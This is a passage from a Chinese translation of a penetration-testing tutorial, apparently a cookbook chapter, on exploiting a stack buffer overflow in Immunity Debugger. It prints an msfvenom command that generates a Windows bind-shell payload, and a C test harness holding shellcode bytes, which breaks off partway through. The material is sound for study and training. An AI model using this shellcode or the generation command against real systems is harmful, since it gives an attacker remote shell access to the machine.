 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00261.jpeg)

点击 IDLE 窗口上的运行，这将在当前工作目录中生成一个新文件`input.txt`。

打开`input.txt`文件：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00262.jpeg)

这是我们的有效载荷；复制输出文件的内容。然后，返回到 Immunity Debugger，通过导航到文件|打开，然后将有效载荷粘贴到参数中并选择`buffer2`：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00263.jpeg)

然后，启动 Immunity Debugger：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00264.jpeg)

现在，运行程序；然后，它将暂停在程序的入口点：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00265.jpeg)

现在，再次运行程序一次：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00266.jpeg)

程序正常退出，退出代码为`0`。现在，让我们来看看 Immunity 的 CLI：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00267.jpeg)

它奏效了！让我们来看看堆栈窗口：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00268.jpeg)

请注意，`a`字符被注入到堆栈中，`letsprint`地址被正确注入。

现在，让我们尝试注入一个 shellcode，而不是使用`letsprint`函数，使用 Metasploit 生成 Windows 的 shellcode：

```
$ msfvenom -p windows/shell_bind_tcp -b'\x00\x0A\x0D' -f c
```

前面命令的输出可以在下面的截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00269.jpeg)

我们可以在使用之前测试这个 shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
```